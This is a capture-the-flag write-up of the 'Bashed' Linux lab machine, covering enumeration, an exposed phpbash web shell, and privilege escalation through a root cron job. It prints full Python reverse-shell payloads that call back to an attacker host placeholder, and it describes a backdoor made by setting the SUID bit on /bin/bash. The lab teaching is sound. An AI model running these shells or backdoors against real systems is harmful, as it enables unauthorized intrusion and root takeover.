

Introduction
Welcome to this technical breakdown of Bashed, an introductory Linux machine. In this session, I will demonstrate how meticulous enumeration is the key to a successful compromise.
The core of this challenge is a common development error: leaving a publicly accessible web shell on the server. In real-world scenarios, these administrative tools are direct gateways for an attacker to gain control over an internal network.
Enumeration
I began by mapping the target IP to bashed.htb in my local /etc/hosts file. This is a standard step that makes it easier to interact with the target and helps in finding potential Virtual Hosts.
echo "<target_ip> bashed.htb" | sudo tee -a /etc/hostsService Discovery
I used a two-step approach for network scanning: starting fast to get quick results, then performing a deep scan to ensure nothing was hidden.
# Quick scan for common ports
sudo nmap --min-rate 5000 -n bashed.htb
# Full scan of all 65,535 TCP ports
sudo nmap -p- --min-rate 5000 -n bashed.htb
# Scan for top UDP services
sudo nmap -sU --top-ports 1000 -n bashed.htbNote: I used
--min-rate 5000to speed up the process. This is safe in a controlled lab environment where we don’t need to worry about being stealthy.
The initial scans showed that only port 80/TCP was open. Since this was the only entry point, I ran a detailed Nmap scan with default scripts and version detection to learn more about the web server.
# Detailed script and version scan on port 80
sudo nmap -p80 -sV -sC --min-rate 5000 -n bashed.htb -oA scan_results
# Results
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)The results confirmed an Apache web server. At this point, I shifted my entire focus to the web application.
Web Enumeration
I visited the website and found a blog where the author, Jenn Marshall, discusses a tool called phpbash. Crucially, she mentions that she developed this web-based terminal on this very server.

Static and Dynamic Analysis
I used two methods to map the application: manual review and automated fuzzing.
1. Source Code Review:
Inspecting the HTML source code often reveals hidden paths. I noticed a reference to an /images directory. When I accessed it, I found that Directory Listing was enabled, meaning the server shows a list of files instead of a web page. This is a clear sign of poor security configuration.
2. Automated Fuzzing: To find hidden development folders, I used ffuf for directory discovery.
# Directory Fuzzing
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://bashed.htb/FUZZ --icThe scan discovered a /dev directory. Given that this is a “development site” this was a high-priority lead.
The Breakthrough
Accessing http://bashed.htb/dev/ showed that directory listing was also enabled here. Inside, I found phpbash.php. Opening this file gave me a functional web shell directly in my browser, granting me command execution as the www-data user.
Privilege Escalation
After securing the user flag, I turned my attention to escalating privileges. A common first step in internal enumeration is checking sudo permissions. Running sudo -l revealed a significant misconfiguration:
www-data@bashed:/var/www/html/dev# sudo -l
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALLThe output indicates that the www-data user is allowed to run any command as the user scriptmanager without requiring a password. This is a powerful privilege, but it comes with a technical limitation: standard sudo commands often require an interactive terminal (TTY) to function correctly. The simple web shell I was using does not support this interactivity, meaning a direct sudo command would likely fail or hang.
To overcome this, I needed to establish a stable reverse shell connection back to my attacking machine. This would provide a proper environment to execute the privilege escalation command.
I started a listener on my machine:
nc -lvnp 4444Then, I executed a Python reverse shell payload from the web shell to connect back to my listener:
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("your_ip",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'Upon catching the shell, I performed a “TTY upgrade” to stabilize it. This process enables features like tab completion, command history, and clear screen, effectively simulating a real SSH session:
python -c 'import pty; pty.spawn("/bin/bash")'
# CTRL+Z
stty raw -echo; fg
export TERM=xtermWith a fully interactive shell secured, I could now successfully switch to the scriptmanager user:
sudo -u scriptmanager /bin/bashAs scriptmanager, I began exploring the filesystem for non-standard files. I discovered a directory called /scripts located at the system root, which is highly unusual.
scriptmanager@bashed:/scripts$ ls -al
total 16
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
-rw-r--r-- 1 root root 12 Feb 4 10:15 test.txtListing the directory contents revealed a critical vulnerability chain:
test.pyis owned by scriptmanager (me), meaning I can modify it.test.txtis owned by root, meaning only root could have created or modified it.- The timestamp on
test.txtupdates every minute.
These facts strongly suggested that a cronjob (scheduled task) running as root executes the test.py script every minute. Since I can edit test.py, I can effectively inject any code I want, and the root user will unknowingly execute it.
To exploit this, I replaced the harmless content of test.py with a malicious Python reverse shell:
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("your_ip",4445))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")I set up a new listener on port 4445 to catch the root connection. After waiting for the next minute cycle, the cronjob executed my modified script, and I received a callback shell with root privileges.
Alternative Method: SUID Persistence
An alternative method to obtain root access involves abusing the cronjob to modify system permissions rather than establishing a new network connection. By instructing the root user to enable the SUID bit on the system bash binary (/bin/bash), we can create a persistent backdoor.
I modified test.py with the following command:
import os
os.system("chmod u+s /bin/bash")When the cronjob executes, it applies the “Set User ID” (SUID) bit to the bash executable. This special permission allows any user to execute the file with the privileges of the file’s owner, in this case, root. Once the task was processed, I could spawn a root shell at any time using the following command:
# Executing bash with -p to maintain SUID privileges
bash -pSecurity Note: While this technique is highly effective in a laboratory or CTF environment for quick access, it is generally avoided in real-world professional engagements. Modifying core system binaries is a destructive action that leaves a permanent and easily detectable footprint. In a production environment, security monitoring tools or an alert administrator would immediately flag the unauthorized permission change on such a critical file.